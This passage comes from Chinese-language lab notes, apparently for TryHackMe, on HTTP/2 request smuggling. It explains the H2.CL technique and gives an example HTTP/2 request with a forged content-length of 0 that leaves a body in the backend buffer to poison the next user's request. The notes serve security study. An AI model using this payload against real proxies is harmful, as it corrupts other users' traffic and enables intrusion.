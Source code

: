     username=jsmith
    ```
    注意 `Host` 头部通常由 `:authority` 伪头部生成。`content-length` 被传递以确保 HTTP/1.1 后端正确处理请求体。

## HTTP/2 请求走私技术 (HTTP/2 Smuggling Techniques)

这些技术利用了 HTTP/2 降级过程中，前端代理如何处理和转换 HTTP/2 请求中的特定头部或特性。

### H2.CL: 利用 `Content-Length` (Exploiting `Content-Length`)

*   **原理:**
    *   `Content-Length` 对纯 HTTP/2 无意义，但攻击者可以在 HTTP/2 请求中包含一个 `content-length` 头部。
    *   如果前端代理在降级时，不经验证或错误地将此 `content-length` 头部传递给 HTTP/1.1 后端。
    *   攻击者可以设置一个与 HTTP/2 请求体实际长度不符的 `content-length` 值（例如 `0`），欺骗后端服务器。
*   **利用方法:**
    1.  攻击者发送一个 HTTP/2 `POST` 请求，包含 `content-length: 0` 头部，但实际请求体中带有恶意内容 (如 `HELLO`)。
    2.  前端代理将请求降级为 HTTP/1.1，并将 `Content-Length: 0` 传递给后端。
    3.  后端服务器根据 `Content-Length: 0` 认为这是一个没有正文的 POST 请求。
    4.  HTTP/2 请求的原始正文 (`HELLO`) 被遗留在后端 TCP 连接的缓冲区中。
    5.  当下一个用户的请求到达该连接时，`HELLO` 会被附加到其请求的开头，导致请求污染。
*   **示例 Payload (H2 请求):**
    ```
    :method POST
    :path /
    :scheme https
    :authority tryhackme.com
    user-agent Mozilla/5.0
    content-length 0  # 关键点
    HELLO             # 实际的HTTP/2请求体，将被走私
    ```
*   **后果 (后端看到):**
    第一个请求 (来自攻击者):
    ```
    POST / HTTP/1.1
    User-Agent: Mozilla/5.0
    Content-Length: 0
    Host: tryhackme.com

    # (无正文)
    ```
    残留在缓冲区: `HELLO`
    下一个用户请求 (例如 `GET /`):
    ```
    HELLOGET / HTTP/1.1  # 用户的请求被污染
    Host: tryhackme.com
    User-Agent: Mozilla/5.0
    ...
    ```
